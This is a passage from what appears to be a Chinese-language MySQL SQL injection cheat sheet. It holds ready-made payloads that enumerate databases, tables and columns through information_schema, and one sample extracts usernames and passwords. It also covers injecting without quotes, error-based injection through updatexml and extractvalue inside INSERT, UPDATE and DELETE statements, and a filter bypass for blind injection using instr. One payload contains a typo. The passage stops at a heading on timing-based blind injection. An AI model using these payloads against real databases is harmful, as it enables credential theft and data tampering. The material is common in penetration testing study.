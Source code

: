 @@sql_mode 当前服务器的sql模式  
@@tx_isolation 默认事务隔离级别.默认值为REPEATABLE-READ  
@@Connections 连接mysql数据库服务器的次数(不管成功还是失败)  
@@max_write_lock_count 最大写锁数量  
@@old_passwords 是否启用mysql323加密方式(就是mysql用户密码的hash是16位的)  
@@Uptime 服务器已经运行的时间   
通过id=instr(@@global.version,1)来获取global变量。@@global包含很多敏感信息，过滤了ascii,substr函数，仍可用instr来盲注。  

-------------------------------------------------------------------------------------------------------

### 可回显注入
 
从information_schema.columns可以查table_schema、table_name、column_name  
 
库  
`union select unhex(hex(group_concat(schema_name))) from information_schema.schemata`  
 
表  
`union select unhex(hex(group_concat(table_name))) from information_schema.tables where table_schema=0x(数据库名对应的十六进制）`  
 
字段  
`union select unhex(hex(group_concat(column_name))) from information_schema.columns where table_schema=0x(数据库名对应的十六进制) and table_name=0x(表名对应的十六进制）`  
 
查询数据（实例）  
`union select 1,2,3,4,concat(username,0x3a,password),6 from admin.users`  //获取到表、字段后，就可以查询所需信息了，如查询users库的admin表的用户名和密码  

插入数据（不用引号）  
```
INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 
char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 0x64)  
```

insert/update/delete 语句中注入  
`or updatexml(1,concat(0x7e,(version())),0) or`  
e.g   
INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');  
`or extractvalue(1,concat(0x7e,database())) or`  
e.g   
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or '' WHERE id=2 and username='Pseudo_Z';  
DELETE FROM users WHERE id=1 or extractvalue(1,coat(0x7e,database())) or '';   

------------------------------------------------------------------------------------------------------------

### 盲注查询
#### BENCHMARK() (M)
Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!  
